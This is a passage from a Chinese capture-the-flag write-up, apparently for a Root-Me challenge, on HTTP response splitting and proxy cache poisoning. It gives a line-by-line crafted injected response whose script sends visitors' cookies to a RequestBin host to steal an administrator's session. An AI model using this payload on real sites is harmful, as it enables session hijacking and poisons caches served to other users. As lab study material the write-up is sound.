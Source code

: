 梳理好攻击步骤后，明显本题的 **解题关键在于如何构造 payload 页面**。

------------

## 构造 payload 页面

首先需要知道，提交请求 `http://challenge01.root-me.org:58002/user/param?lang=[注入点]` 的响应是这样的：

```html
HTTP/1.1 302 Found
Set-Cookie: lang=[注入点]; Expires=Thu, 28 Feb 2019 14:59:14 GMT; Path=/
Server: WorldCompanyWebServer
Connection: close
Location: /home
Date: Thu, 21 Feb 2019 14:59:14 GMT
Content-Type: text/html
Content-Length: 0
```


先不考虑 `[注入点]` 的 payload 怎么写，而是先看看我们最终期望的响应，应该是这样的：

```html
[01] HTTP/1.1 302 Found
[02] ......
[03] {CRLF} Content- Length: 0
[04] {CRLF}
[05] {CRLF} HTTP/1.1 200 OK
[06] {CRLF} Content-Type: text/html
[07] {CRLF} X-XSS-Protection: 0
[08] {CRLF} Last-Modified: Thu, 01 Jan 2099 12:00:00 GMT
[09] {CRLF} Content-Length: 137
[10] {CRLF}
[11] {CRLF} <script>document.write("<h1>EXP</h1><img src=http://requestbin.fullcontact.com/148xfw11?".concat(document.cookie).concat(" />"))</script>
```

> 注：每行的行首都有一组 `{CRLF}` ，表示每行之间都有回车换行符号进行分隔

**逐行解释**：

- `[01]` 和 `[02]` 是原本的响应内容，这部分的响应对我们没用，所以无需关心内容是什么
- `[03]` 从这行开始就是注入内容，正因为我们不关心原本的第一个响应内容，所以用 `Content- Length: 0` 直接标记第一个响应结束（**注意这里的每一个空格，不知为何很重要，少一个都不行**）
- `[04]` 是一个空行，这很重要，用于分隔第一个和第二个响应内容
- `[05]` 这里开始就是我们要构造的第二个响应内容
- `[06]` 必要的响应头之一，标明我们构造的响应页面内容类型
- `[07]` 非必要的响应头，但是以防万一，用于关闭页面的 XSS 保护，使得我们可以注入 XSS 脚本
- `[08]` 必要的响应头之一，要使得反向代理服务器的缓存在过期前可以被持续污染，就需要把 `Last-Modified` 设置为一个未来值，这样代理服务器就以为缓存没有更新过，从而对我们的 payload 页面进行保持，而不会向 HTTP 服务器获取新的缓存进行覆盖。
- `[09]` 在 `HTTP/1.1` 版本之前是必要的响应头之一、这个版本之后则无关重要了。`Content-Length` 的值需要刚好就是 `[11]` 页面内容的长度（按ASCII字符计算，包括空字符），若过长会造成等待响应内容超时、过短会截断页面内容。
- `[10]` 是一个空行，这很重要，用于分隔第二个响应的响应头和页面内容。
- `[11]` 页面内容，这里我只构造了一个 JS 脚本，其功能是向预设的 [RequestBin](http://requestbin.fullcontact.com) 服务器发送访问这个页面的用户的 Cookie ，这样当管理员浏览这个页面时，就会被窃取 Cookie 。
